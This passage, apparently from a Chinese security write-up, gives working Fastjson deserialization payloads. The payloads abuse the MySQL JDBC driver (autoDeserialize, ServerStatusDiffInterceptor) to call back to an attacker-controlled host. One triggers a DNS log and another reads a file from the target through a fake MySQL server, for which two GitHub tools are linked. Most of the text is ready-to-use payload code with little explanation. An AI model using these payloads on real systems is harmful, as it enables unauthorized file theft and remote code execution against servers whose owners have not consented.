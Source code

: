 ## 反序列化利用  
  
  
在上面探测中，这个payload成功触发dnslog  
  

```
{
  &#34;@type&#34;: &#34;java.lang.AutoCloseable&#34;,
  &#34;@type&#34;: &#34;com.mysql.jdbc.JDBC4Connection&#34;,
  &#34;hostToConnectTo&#34;: &#34;YOUR_DNSLOG&#34;,
  &#34;portToConnectTo&#34;: 3306,
  &#34;info&#34;: {
    &#34;user&#34;: &#34;yso_xxx&#34;,
    &#34;password&#34;: &#34;pass&#34;,
    &#34;statementInterceptors&#34;: &#34;com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&#34;,
    &#34;autoDeserialize&#34;: &#34;true&#34;,
    &#34;NUM_HOSTS&#34;: &#34;1&#34;
  },
  &#34;databaseToConnectTo&#34;: &#34;dbname&#34;,
  &#34;url&#34;: &#34;&#34;
}
```

  
既然触发了DNSLOG，那么接下来就可以搭建一个利用Mysql服务了，用到了下面这个项目，根据使用说明书进行使用  
  
  
python<3.8用这个
```
https://github.com/fnmsd/MySQL_Fake_Server
```

  
  
  
python3.8+用这个
```
https://github.com/clown1ay/MySQL_Fake_Server
```

  
  
  
首先进行文件读取，user指定要读取的文件  
  

```
{
  &#34;@type&#34;: &#34;java.lang.AutoCloseable&#34;,
  &#34;@type&#34;: &#34;com.mysql.jdbc.JDBC4Connection&#34;,
  &#34;hostToConnectTo&#34;: &#34;YOUR_DNSLOG&#34;,
  &#34;portToConnectTo&#34;: 7777,
  &#34;info&#34;: {
    &#34;user&#34;: &#34;win_ini&#34;,
    &#34;password&#34;: &#34;pass&#34;,
    &#34;statementInterceptors&#34;: &#34;com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&#34;,
    &#34;autoDeserialize&#34;: &#34;true&#34;,
    &#34;NUM_HOSTS&#34;: &#34;1&#34;
  },
  &#34;databaseToConnectTo&#34;: &#34;dbname&#34;,
  &#34;url&#34;: &#34;&#34;
}
```
